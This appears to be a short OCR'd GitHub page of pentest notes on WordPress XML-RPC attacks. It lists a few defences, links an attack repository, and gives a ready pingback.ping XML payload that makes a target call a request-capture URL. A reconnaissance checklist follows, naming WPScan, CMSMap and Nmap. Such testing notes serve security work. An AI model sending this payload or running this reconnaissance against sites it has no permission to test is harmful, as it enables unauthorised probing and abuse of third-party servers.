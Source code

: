 
### **How to Protect Against XML-RPC Attacks**  
- **Disable XML-RPC** if you don’t need it.  
- Use firewalls or security plugins to block bad requests.  
- Regularly update your software and monitor server activity.

---

### dorks and payload:
https://github.com/rm-onata/xmlrpc-attack

### Method 

### **Pingback.ping XML-RPC Payload**
```<?xml version="1.0" encoding="utf-8"?>
<methodCall>
  <methodName>pingback.ping</methodName>
  <params>
    <param>
      <value><string>https://www.postb.in/YOUR_BIN_URL</string></value>
    </param>
    <param>
      <value><string>https://www.TARGET.URL</string></value>
    </param>
  </params>
</methodCall>

```

### **Usage:**

You can also use https://webhook.site/ as an alternative to https://postb.in.
1. Replace `https://www.postb.in/YOUR_BIN_URL` with your Postb.in or Collaborator URL to capture requests.  
2. Replace `https://www.TARGET.URL` with the target URL you want to test.  

This payload sends a pingback request to the target, which is logged by the Postb.in URL for analysis.

---
## Summary
- Find all the subdomain of the target domain
- Find all the IPs related
- Hunt on those subdomain & IPs
- Try to find sensitive directories
- Try to find vulnerable plugins & themes
- Use CMSMap & WPSCAN tool along with NMAP

---
### msfconsole
